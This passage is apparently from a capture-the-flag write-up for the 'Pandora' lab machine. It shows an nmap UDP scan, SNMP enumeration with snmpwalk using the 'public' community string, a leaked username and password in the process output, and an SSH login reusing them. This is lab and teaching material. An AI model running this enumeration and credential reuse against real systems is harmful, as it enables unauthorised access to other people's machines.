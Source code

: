 ```
❯ sudo nmap -sU -sV -p 161 panda.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-17 14:01 EDT
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.059s latency).
rDNS record for 10.10.11.136: Panda.HTB

PORT STATE SERVICE VERSION
161/udp open snmp SNMPv1 server; net-snmp SNMPv3 server (public)
Service Info: Host: pandora

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.45 seconds
```

> We need to remember `public` because it is the community string.

#### SNMP

Investigating a little bit I found a tool in this [website](https://pentesting.one2bla.me/enumeration/service-enumeration) called `snmpwalk`.

```
snmpwalk -c public -v1 panda.htb | tee snmpwalk1
```

Now let's see the `snmpwalk1` file.

```
...
iso.3.6.1.2.1.25.4.2.1.5.876 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.880 = STRING: "-f"
...
```

> Ohhh, we see an user and a password here!

### Foothold

#### SSH 

The latest credentials seems to work for the ssh, let's try:

```
❯ ssh daniel@10.10.11.136
daniel@10.10.11.136's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation: https://help.ubuntu.com
 * Management: https://landscape.canonical.com
 * Support: https://ubuntu.com/advantage

...

Last login: Tue May 17 18:27:07 2022 from 10.10.16.21

daniel@pandora:~$
```
